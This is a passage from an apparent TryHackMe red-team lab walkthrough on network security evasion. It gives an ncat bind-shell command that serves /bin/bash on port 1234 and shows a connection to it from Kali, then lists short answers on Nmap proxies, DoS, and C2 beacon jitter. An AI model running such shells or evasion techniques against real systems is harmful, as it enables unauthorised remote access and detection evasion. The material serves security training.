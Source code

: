 Using an extra space in the ncat command on the webserver :

```console
ncat  -lvnp 1234  -e  /bin/bash 
```
{: .nolineno }

![ncat command](/images/thm/redteamnetsec/redteamnetsec_6.png)
_ncat command_

Using ncat to connect on the bind shell from Kali :

```console
root@ip-10-10-28-96:~# ncat 10.10.160.99 1234
id
uid=1001(redteamnetsec) gid=1001(redteamnetsec) groups=1001(redteamnetsec)
whoami
redteamnetsec
```
{: .nolineno }

Answer : redteamnetsec

## TASK 6 : Evasion via Route Manipulation
### Protocols used in proxy servers can be HTTP, HTTPS, SOCKS4, and SOCKS5. Which protocols are currently supported by Nmap?

Answer : HTTP SOCKS4

## TASK 7 : Evasion via Tactical DoS
### Make sure you have read and understood the three points of this task. 

No Answer.

## TASK 8 : C2 and IDS/IPS Evasion
### Which variable would you modify to add a random sleep time between beacon check-ins?

Answer : Jitter

